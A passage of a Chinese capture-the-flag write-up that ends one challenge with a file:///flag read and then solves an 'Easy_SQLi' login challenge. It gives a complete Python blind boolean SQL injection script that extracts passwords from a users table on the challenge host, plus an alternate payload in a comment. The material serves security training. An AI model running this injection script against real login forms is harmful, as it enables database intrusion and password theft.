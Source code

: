 4. 题中用"file:///flag"查看flag

5. 得到flag

## 总结

> 搜索漏洞寻找payload时，仔细观察修改点。有时可能需要修改多处

# Easy_SQLi

## 题目描述

Easy的SQLi

## 解答

1. 看到sql表单登录

2. 尝试sql注入，登录成功

   ![image-20240410181735589](https://img2023.cnblogs.com/blog/3406637/202404/3406637-20240410181733406-164819039.png)

3. 利用脚本来进行sql注入攻击

4. 得到flag

## 补充知识

sql注入脚本

```py
import requests
import time
url = 'http://challenge.qsnctf.com:31966/login.php'#网站放这里
name = ""
for i in range(50):
    for j in range(31, 129):
        payload = f"1'^if(ascii(substr((select/**/group_concat(password)/**/from/**/users),{i}," \
                  f"1))={j},1,0)-- -"
        data = {
            'uname': payload
        }
        # 'case(ord(substr(database()from({})for(1))))when({})then(2)else(3)end'
        result = requests.post(url=url, data=data)
        if 'success' in result.text:
            name += chr(j)
            print('数据: %s' % name)
            print(url + payload.format(i, j))
            break
        else:
            continue
```
